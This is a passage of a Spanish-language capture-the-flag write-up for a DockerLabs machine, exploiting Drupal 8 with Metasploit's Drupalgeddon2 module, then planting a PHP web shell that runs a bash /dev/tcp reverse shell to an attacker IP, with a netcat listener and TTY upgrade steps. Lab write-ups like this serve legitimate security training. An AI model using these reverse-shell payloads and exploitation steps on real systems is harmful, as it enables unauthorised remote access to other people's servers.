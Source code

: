 >
>Devuelve el usuario bajo el cual se está ejecutando el servidor web (www-data en este caso).
>
>Nos brinda acceso al Servidor con el usuario `www-data`


## UTILIZANDO METASPLOIT
Entonces vamos a entrar a la `msfconsole`
![searchdrupal8](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/search_drupal8.png)

Podemos usar el exploit 0, Drupalgeddon2 en Drupal 8 (y versiones anteriores), que permite la ejecución remota de código (RCE) a través de la Forms API Property Injection.

![options_drupal](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/options_drupal.png)
Entonces completamos el RHOST que será la IP hacia dónde lanzaremos el ataque:

![options_completado](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/options_completado.png)
![vulnerado_metas](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/vulnerado_metasploit.png)

Hemos ganado acceso también, para enviarnos una reverse shell interactiva hacia nuestra maquin atacante, si intentamos como siempre lo hacemos nos dará error el ">" entonces como estamos en la ruta `/var/www/html` podemos crear un archivo, pasarlo a la victima y luego
buscar en la web de la siguiente manera:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.59.128/1234 0>&1'");
?>
```
Como `wget` no funciona, pero si probamos con curl, este comando si se encuentra disponible
![curl](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/curl.png)

Ahora que ya esta en la ruta donde se aloja la pagina, podemos buscarlo 
![shell_web](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/shell_web.png)
![netcat](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/netcat.png)

>![+] OJO
>
>Si queremos enviarnos una shell hacia nuestra maquina estando desde una session en metasploit, realizamos el siguiente comando:
>
>Nos ponemos en escucha con `nc -nlvp 1234` y desde la sesion de metasploit hacemos:
>
>`bash -c 'bash -i >& /dev/tcp/192.168.59.128/1234 0>&1'`
>
>y con eso ya tendremos una shell interactiva


Ahora si tenemos una shell mas interactiva, si queremos podemos hacer un tratamiento de la TTY para poder trabajar mejor

```ruby
script /dev/null -c bash
ctrl + z
stty raw -echo:fg
        reset xterm
export TERM=xterm
export SHELL=bash
```
